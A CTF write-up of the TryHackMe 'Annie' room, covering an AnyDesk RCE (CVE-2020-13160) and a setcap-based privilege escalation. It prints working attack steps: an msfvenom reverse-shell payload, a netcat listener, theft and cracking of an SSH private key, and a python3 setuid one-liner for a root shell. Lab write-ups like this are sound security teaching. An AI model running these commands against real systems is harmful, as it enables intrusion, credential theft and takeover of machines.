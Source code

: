 ```yaml
---
title: "TryHackMe - Annie CTF writeup"
date: 2022-09-16 12:31:00 +0300
categories: [Tryhackme, Easy]
tags: [cronjobs, sudo, web, gobuster, revshell, ssh-keygen, GTFObins, ssh]
---
```


| Room       | [annie](https://tryhackme.com/room/annie)       |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Medium                                                     |

# Let's get started
## Nmap scan
First, i started with an nmap scan as usual. I found that several ports are open, but i will focus my interest in ports `22` and `7070` because they have what i want.


Going further and scanning for port `7070` specifically. I find that it is running `realserver`. I also realized that it is running `AnyDesk` (a remote access software) from an ssl leak.


I tried looking for an AnyDesk exploit that might be available and guess what! google never fails, i a remote code execution with a [CVE-2020–13160](https://www.exploit-db.com/exploits/49613) for `AnyDesk version 5.5.2`. because i don’t know the version of the `AnyDesk` yet, i’ll have to time it anyway.


I copied the exploit to my local machine and there are couple of things we are required to change; `ip` and the `shellcode`.

Port `50001`? i did not find this in my nmap scan, but doing another scan but this time round with a UDP scan `-sU` flag, i found it. going on with the changes on the exploit.

>ip: changed it to the remote machine ip(the target)
{: .prompt-info }


For the shellcode we generate our own using the msfvenom command rendered in the exploit’s comment and copy the shellcode and replace the one given in the exploit

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your ip] LPORT=1234 -b “\x00\x25\x26” -f python -v shellcode
```

the one i generated in my terminal
the one i pasted in the exploit

After doing those changes i was good to go. I ran the exploit, mind you, the exploit was created with python2. when you try python3 it will flag concatenation errors so;
`python2 exploit.py`

and now i started listen on the port in entered in the payload `nc -nlvp 1234` and the reverse shell will be up in 5 seconds


and yes i had the shell


Then i thought of upgrading the shell but i remembered!!! i have ssh right? how about i grab the id_rsa key and login as annie? , long way? Nope just having fun…lets try that. copy the key from annie’s home directory `/home/annie/.ssh/id_rsa` changing its mode to `600`it and trying to login, i found that it is password protected.


what now? worry not, we will use john the ripper to crack the password. but first we convert the ssh to what john can understand `ssh2john id_rsa > annie_id` and crack the passphrase using john command `john annie_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt`


we are good now, lets go and login to the ssh account. first change the mode of the id_rsa file to protected `chmod 600 id_rsa` and the proceed to login by typing `ssh -i id_rsa annie@<target_ip>`
and we are in.


# User flag
just in the home directory. cat it and submit the flag
`cat user.txt`


# Root flag

to get the root flag we first need to escalate our privileges. in linux machines what i first think of is sudo -l and unfortunately we don’t have annie’s password, so what? linpeas? yes but it was kinda slow in running so i aborted the process. uurgh!…ooh there is one i did not try, SUID! so use find to check them.

```bash
find / -perm -4000 2>/dev/null`
```

setcap!! this seems interesting..we can set capabilities to python and use that to escalate to root..how? copy `python3` to `tmp` dir

```bash
cp /usr/bin/python3 /tmp
cd /tmp
```
then set the capability
```bash
/sbin/setcap cap_setuid+ep python3
```
and then finally run the python command to escalate your privileges to the root and get your root flag, always in /root dir

```bash
./python3 -c ‘import os;os.setuid(0);os.system(“/bin/bash”)’
```


i hope you enjoyed and liked the write up. you can find me in [twitter](https://twitter.com/pr0rat). any questions or compliments direct them to my dm.

thank you so much!!